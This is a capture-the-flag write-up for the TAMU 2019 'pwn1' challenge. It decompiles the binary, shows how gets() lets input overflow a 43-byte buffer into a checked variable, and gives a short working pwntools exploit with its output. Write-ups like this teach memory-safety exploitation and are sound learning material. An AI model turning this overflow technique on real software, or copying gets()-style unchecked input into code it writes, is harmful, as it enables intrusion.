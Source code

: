 # tamu19_pwn1

[Link to binary](https://github.com/guyinatuxedo/nightmare/blob/master/modules/04-bof_variable/tamu19_pwn1/pwn1)

---

```
~/Downloads > ./pwn1 
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
```

So it's another prompt. This time around, `strings` gives us useful info:

```
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
I don't know that! Auuuuuuuugh!
What... is your quest?
To seek the Holy Grail.
What... is my secret?
;*2$"
```

So it seems like there are actually three questions instead of just one. `strings` gives us the answers to the first two already.

```
~/Downloads > ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
```

We still don't know the secret. Ghidra to the rescue!

```

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  int iVar1;
  char local_43 [43];
  uint local_18;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)2,0,0);
  local_14 = 2;
  local_18 = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see."
      );
  puts("What... is your name?");
  fgets(local_43,43,stdin);
  iVar1 = strcmp(local_43,"Sir Lancelot of Camelot\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(local_43,43,stdin);
  iVar1 = strcmp(local_43,"To seek the Holy Grail.\n");
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(local_43);
  if (local_18 == 0xdea110c8) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

This is very similar to the previous challenge: `gets` reads bytes into `local_43` until it encounters a newline. So we can simply fill the buffer with 43 random bytes and then overflow into `local_18`.

```python
from pwn import *

p = process("./pwn1")

p.sendline("Sir Lancelot of Camelot")
p.sendline("To seek the Holy Grail.")
p.sendline(43 * b" " + bytes.fromhex("dea110c8")[::-1])
print(p.recvall().decode())
```

```
~/Downloads > python pwn_pwn1.py 
[+] Starting local process './pwn1': pid 21515
[+] Receiving all data: Done (204B)
[*] Process './pwn1' stopped with exit code 0 (pid 21515)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
Dear{pwn1}
```

The binary reads a `flag.txt` because this binary was supposed to run on a
server and serve the prompt on a TCP tunnel. I created a fake `flag.txt` to
replicate the behaviour.
